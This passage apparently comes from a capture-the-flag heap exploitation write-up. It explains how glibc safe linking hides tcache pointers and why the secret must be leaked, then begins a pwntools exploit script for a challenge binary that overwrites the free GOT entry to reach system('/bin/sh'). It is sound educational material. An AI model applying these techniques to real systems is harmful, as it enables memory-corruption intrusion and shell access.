 		2. but `free` GOT entry contains the `system` function real address
		3. so in the reality we are calling `system('/bin/sh')`

## What about the protection mechanisms?
`Safe linking` ==**is a technique used to protect against memory corruption attacks such as** ==`tcache poisoning`. 

Its implementation in glibc aims to enhance the security of memory management by preventing attackers from easily manipulating the linked lists used to manage deallocated memory blocks.

The `safe linking` t==**echnique obfuscates the addresses of pointers in linked lists using XOR with a random value derived from a "secret" called L that is unique for each program execution.** ==

1. **Secret** : It is a secret value generated at the start of the program, it is a value called **L** **that is shifted by 12 bits** 
	1. So it won't change during the usage of the binary...
2. **Obfuscation**: When a memory block is deallocated and added to a linked list (such as in a `tcache bin`), the address of the next block in the list is obfuscated using XOR with the secret.
3. **Address Recovery**: When a block is removed from the list for a new allocation, the original address is recovered by applying XOR with the secret again.


![[Screenshot 2024-06-07 alle 14.38.30.png]]
- here L is the secret
- P is the target pointer


**==So we need to extract this L shifted value to be able to overwrite the addresses in the linked lit of the==** `Tcache`


See more [here](https://www.researchinnovations.com/post/bypassing-the-upcoming-safe-linking-mitigation)

## Create an exploit using pwntools

First of all we can setup our exploit using these lines:
```python
from pwn import *

context(os="Linux", arch="amd64")

p = gdb.debug('./chall', 'b *0x00401469')
```
- this will allow us to run gdb, and control it using the python script
- `p` will allow us to send values to the binary  and to print the output of it


At this point we know how the binary works and we can write some functions to interact with it:
```python
def allocate_bot(bot_id, length, identifier):
    p.sendline(b'1')  # add bot
    p.sendline(str(bot_id).encode())  # bot id
    p.sendline(str(length).encode())  # bot length
    p.sendline(identifier)  # bot identifier
    output = p.recvuntil(f'Added botnet to index {bot_id}\n'.encode())
    print(output.decode())


def deallocate_bot(bot_id):
    p.sendline(b'2')  # remove bot
    p.sendline(str(bot_id).encode())  # bot id
    output = p.recvuntil(f'Botnet index (0-9): Removed index {bot_id}\n'.encode())
    print(output)


def call_atttack_function_to_leak_data(bot_id):
    p.sendline(b'3')
```